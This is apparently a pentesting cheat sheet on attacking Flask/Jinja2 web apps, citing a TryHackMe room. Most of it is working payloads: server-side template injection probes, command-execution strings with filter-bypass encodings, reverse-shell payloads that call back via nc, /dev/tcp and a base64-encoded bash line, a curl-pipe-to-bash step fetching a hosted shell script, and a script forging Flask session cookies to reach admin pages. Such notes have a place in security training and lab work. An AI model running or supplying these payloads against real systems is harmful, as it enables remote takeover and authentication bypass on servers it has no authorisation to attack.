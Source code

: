 ```yaml
---
title: Flask Jinja2 Pentesting
description: Flask is a micro web framework written in Python.
tags:
    - SSTI
    - Web
refs:
    - https://tryhackme.com/room/hipflask
date: 2023-06-27
draft: false
---
```


## Common Directories

```bash
/app.py
/main.py
/modules.py
/modules/__init__.py
/modules/admin.py
```

<br /><br />

## Server-Side Template Injection (SSTI)

Sometimes, website may filter specific characters.  
If so, **URL encode the payload or convert to HEX**.  
In addition, it’s recommended to send requests using **Burp Suite** because web browsers automatically update the payload.

First, try below payloads.

```py
{{ 4*2 }}
{{ config.items() }}
# Remove curly brackets
{2*3}
2*3
```

If success, you may be able to exploit with OS command injection.

```bash
{{ __import__('os').system('ping -c 1 10.0.0.1') }}

{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}

{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}

{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('id')|attr('read')() }}

{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')() }}

{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}
```

<br />

### Reverse Shell

```bash
{{config.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc 10.0.0.1 443 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}

{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f')|attr('read')() }}

# Filter bypass - Base64 encode
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNy80NDQ0IDA+JjEi" | base64 -d | bash').read() }}
```

Alternatively, we can create a shell script to reverse shell, then execute it in the server side.  
For example, create a shell script named "revshell" in local machine.

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"
```

Then host it and start a listener for receiving an incoming request.

```bash
# Local terminal 1
python3 -m http.server 8000

# Local terminal 2
nc -lvnp 4444
```

Now inject SSTI in the target website.

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('curl 10.0.0.1:8000/revshell | bash').read()}}

# Filter bypassing
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.0.0.1:8000/revshell | bash")|attr("read")()}}
```

We may get a shell.

<br /><br />

## SSTI with Error Page

If the website displays **an error page (404, 403, etc.)** when we access to the page which does not exists, the path may be reflected in the error page. For example, when we attempt to access to **`/example.html`** which does not exist, the error page will show messages like the following.

```txt
No result for /example.html
```

As you know, we can insert the **malicious program** using **SSTI**.  
For instance, try to access **`http://example.com/{{ 2*3 }}`**.  
The error page will reflect the result of **"2*3"** as follow.

```txt
No result for 6
```

<br /><br />

## Decode Session Cookie

The session of cookie in the Flask webapp can be decoded.

- **[Flask Session Cookie Decoder](https://www.kirsle.net/wizards/flask-session.cgi)**

<br /><br />

## Cookie Forgery

### 1. Create a Python Virtual Environment

```bash
python3 -m venv myenv
source myenv/bin/activate
```

<br />

### 2. Install Packages

```bash
pip3 install flask requests waitress
```

<br />

### 3. Create a Python Script

For instance, create “test.py”.  
Replace the **"SECRET_KEY"** value with the target Flask app's secret key.

```python
#!/usr/bin/env python3
from flask import Flask, session, request
from waitress import serve
import requests, threading, time

app = Flask(__name__)
app.config["SECRET_KEY"] = "c53ac69e07ed112ecb788eb4dc831990"

@app.route("/")
def main():
    session["auth"] = "True"
    session["username"] = "test" # SSTI may be applied with "{{ 3*7 }}"
    return "Check you cookies", 200

# Flask setup/start
thread = threading.Thread(target = lambda: serve(app, port=9000, host="127.0.0.1"))
thread.setDaemon(True)
thread.start()

# Request
time.sleep(1)
print(requests.get("http://localhost:9000/").cookies.get("session"))
```

<br />

### 4. Run the Script

```bash
python3 test.py
```

The cookie value generated.

Copy and paste it into the Cookie of the HTTP header in browser as below.

```bash
Cookie: session=<generated_cookie_value>
```

Now we can login and access to admin page e.g. /admin.  
After exploiting, deactivate the python virtual environment.

```bash
deactivate
```
